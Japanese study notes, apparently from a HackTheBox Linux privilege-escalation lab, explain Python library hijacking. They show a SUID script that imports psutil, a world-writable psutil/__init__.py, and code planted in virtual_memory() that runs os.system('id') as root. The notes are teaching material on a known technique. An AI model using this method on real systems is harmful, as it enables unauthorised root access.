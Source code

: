 ### 不適切な書き込み権限 
- たとえば、会社のイントラネット上の開発者のホストにいて、開発者がPythonを使用しているとする
- よって、3つのコンポーネントがある
	- Pythonモジュールをインポートする実際のPythonスクリプト
	- スクリプトの権限
	- モジュールの権限
Pythonモジュールには、誤ってすべてのユーザーに書き込み権限が設定されている場合がある
- Pythonモジュールを編集および操作して、必要な結果を生み出すコマンドまたは関数を挿入できる
- PythonスクリプトにSUID/SGID権限が割り当てられている場合、コードは自動的にSUID/SGIDが継承される

pythonスクリプトにSUIDが継承されている例
- このスクリプトを別のユーザーの権限、この場合はrootとして実行できる
	- また、スクリプトを表示してその内容を読む権限もある
```shell-session
ls -l mem_status.py

-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
```

SUIDが設定されているmem_status.pyのコード
- psutilライブラリを使用していることがわかる
```python
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

psutilの使われている関数(`psutil.virtual_memory()`)を探し、このモジュールに書き込み権限があるかどうかを確認する
- 書き込み可能なことがわかった
```shell-session
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*

/usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psaix.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psbsd.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pslinux.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psosx.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pssunos.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pswindows.py:def virtual_memory():


htb-student@lpenix:~$ ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

psutilの使われている関数(`psutil.virtual_memory()`)にペイロードを書き込む
```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
```